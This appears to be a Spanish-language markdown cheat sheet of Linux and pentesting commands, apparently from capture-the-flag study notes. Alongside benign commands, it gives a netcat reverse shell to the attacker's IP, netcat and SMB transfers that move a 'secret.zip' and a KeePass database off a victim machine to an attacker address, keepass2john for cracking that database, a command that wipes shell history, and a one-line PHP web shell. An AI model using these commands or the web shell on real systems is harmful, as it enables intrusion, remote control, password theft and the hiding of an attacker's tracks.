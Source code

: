 # Comandos Linux


- Comando -> **watch -n 1 ls -l /bin/bash** Monitoreamos el comando /bin/bash y miramos con ls -l (l=ele)
- Comando -> **!$** Referencias el ultimo argumento que hayamos puesto en la consola 
- Comando -> **echo ‘’ > ~/.zsh_history** Para borrar el historial en la zshrc
- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux

- Comando -> **7z l file.zip** (l=ele) Podemos ver el contenido interno del archivo zip, gz, bzip2, etc...
- Comando -> **7z x file.gz** (l=ele) Podemos extraer el contenido interno del archivo zip, gz, bzip2, etc...


- Comando -> **find / -name < WORD> 2>/dev/null** Para encontrar el directorio y los permisos denegados no nos los muestre

- Comando -> **ls bin/** Para ver que comandos podemos ejecutar 

- Server Comando -> **nc.exe -e cmd < NUESTRA IP> < PUERTO>** Para ejecutar el netcat y nos haga una ReverShell a nuestra IP y puerto especifico

- Comando -> **nc < Nuestra IP> 443 < secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux, para mandar un archivo por netcat a nuestra direccion IP, esto desde la maquina victima
- Comando -> **nc -nlvp 443 > secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux esto en la maquina de atacante para recibir el archivo y colocarlo con la misma extencion y el mismo nombre.

- Comando -> **smbserver.py < FOLDERNAME> $(pwd)** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
- Comando -> **impacket-server < FOLDERNAME> $(pwd) -smb2support** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
	- **\\\\10.10.14.17\\smbFolder\\nc.exe -e cmd 10.10.14.17 443** Vamos a crear un recurso compartido smb con nuestra maquina para compartir el nc.exe y despues hacer que cuando lo ejecute nos regrese una consola interactiva por el puerto 443 (Se coloca en la maquina victima)
	- **copy CEH.kdbx \\\\10.10.14.17\\smbFolder\\CEH.kdbx** Copiamos un archivo de la maquina victima a nuestra maquina de atacante
		- CEH.kdbx -> Nombre dek archivo que nos queremos copiar de la maquina victima
		- 10.10.14.17 -> Nuestra direccion IP
		- smbFolder -> Nombre de la carpeta del recurso compartido 

- Encontrar un archivo con extencion **.kdbx** 
	Son archivos de datos creados por KeePass 'Password Safe', se refieren a la passwd de base de datos KeePass
	- **keepassxc FILE.kdbx** Nos permite abrir un archivo keepass con passwd, de lo contrario hacemos lo siguiente
	- **keepass2john FILE.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta, guardandolo en un archivo llamado hash 

- Comando -> **cewl -w < FileName.txt> <http://URL/>** Creas un diccionario mas 'personalizado' con las palabras de una webpage y te regresa un archivo de texto

- Comando -> **find / -name < NAME> 2>/dev/null** Para encontrar el directorio y los permiso denegados no nos los muestre


----
Codigo PHP para que en la url nosotros podamos ejecutar diferentes comandos **/image.php?cmd=whoami**
Despues del primer ? va php esto en los tres de abajo
<?
	system($_REQUEST['cmd']);
?>
